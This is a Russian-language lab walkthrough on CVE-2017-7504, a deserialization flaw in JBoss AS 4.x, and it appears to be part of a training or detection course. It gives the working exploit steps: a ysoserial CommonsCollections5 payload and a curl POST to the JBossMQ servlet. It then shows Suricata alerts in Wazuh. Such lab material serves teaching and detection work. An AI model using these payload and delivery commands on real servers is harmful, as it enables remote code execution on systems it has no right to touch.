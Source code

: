 # CVE-2017-7504

CVE-2017-7504 является уязвимостью десериализации, уязвимыми являются JBoss AS 4.x и предыдущие версии. Принцип уязвимости. В JBoss AS 4.x и более ранних версиях файл HTTPServerILServlet.java уровня вызова JServer через HTTP в процессе реализации JBossMQ имеет уязвимость десериализации.

Злоумышленник может использовать эту уязвимость для выполнения произвольного кода со специальными сериализованными данными.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

Чтобы сгенерировать полезную нагрузку, нужно скачать [ysoserial](https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar) и выполнить данную команду

```
java -jar ysoserial-all.jar CommonsCollections5 "touch /tmp/success" > 1.ser
```

Если при генерации пэйлоада возникает подобная ошибка, нужно откатить версию Java

> Для генерации подойдет 11 версия&#x20;
>
> Чтобы откатить java к 11 версии, нужно найти пакет с помощью команды sudo apt search jdk и скачать его, а затем выполнить команду sudo update-alternatives --config java и sudo update-alternatives --config javac и выбрать 11 версию
>
>

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

После этого отправляем содержимое файла как тело POST-запроса

```
curl http://ваш-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @1.ser
```

Результатом эксплуатации является создание файла /tmp/success

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>
